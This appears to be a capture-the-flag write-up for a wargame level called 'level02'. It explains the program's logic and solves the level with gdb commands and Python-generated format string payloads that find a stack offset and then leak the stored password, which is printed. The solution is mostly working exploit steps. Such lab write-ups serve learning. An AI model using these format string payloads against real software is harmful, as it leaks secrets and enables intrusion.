 Program behavior:
1. Opens a password file with `fopen` function;
2. Reads a password to a buffer (real_pass);
3. Reads from stdin to a buffer (username) using `fgets` function;
4. Reads from stdin to a buffer (in_pass) using `fgets` function;
5. Opens a shell if the in_pass and real_pass are equal;
6. Otherwise calls vulnerable `printf` function.

Solution:
Use format string attack to print the password to stdout.

# Launch the debugger
gdb level02
# Inspect main function
disassemble main
`0x0000000000400a51 <+573>:   lea    -0xa0(%rbp),%rax`
# Run the debugged program
start
# Get address of buffer with real password
print/a $rbp-0xa0
`$1 = 0x7fffffffe540`
# Quit the debugger
quit
# Get the buffer offset
(python -c 'print "%8$p\n" + "BBBB"') | ./level02
`0x42424242 does not have access!`
# Initiate format string attack
(python -c 'print "%8$s\n" + "\x40\xe5\xff\xff\xff\x7f"') | ~/level02
`Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H does not have access!`

